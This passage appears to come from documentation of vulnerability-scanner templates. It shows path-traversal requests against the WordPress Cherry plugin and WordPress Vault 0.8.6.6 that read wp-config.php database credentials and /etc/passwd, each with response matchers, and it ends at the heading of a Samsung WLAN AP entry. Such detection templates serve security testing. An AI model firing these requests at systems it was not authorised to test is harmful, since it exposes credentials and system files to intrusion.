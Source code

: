### URL

- {{BaseURL}}/wp-content/plugins/cherry-plugin/admin/import-export/download-content.php?file=../../../../../wp-config.php

### Matchers

**Type - word**

- part - body
- words
  1. DB_NAME
  2. DB_PASSWORD
- condition - and

**Type - status**

- status
  1. 200

---

# WordPress Vault 0.8.6.6 - Local File Inclusion

## Description

- WordPress Vault 0.8.6.6 is vulnerable to local file inclusion.
- severity - high
- tags - lfi,edb,wp-plugin,wordpress

## Requests

- Method - GET

### URL

- {{BaseURL}}/?wpv-image=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd

### Matchers

**Type - regex**

- regex
  1. root:.\*:0:0:

**Type - status**

- status
  1. 200

---

# Samsung WLAN AP WEA453e - Local File Inclusion
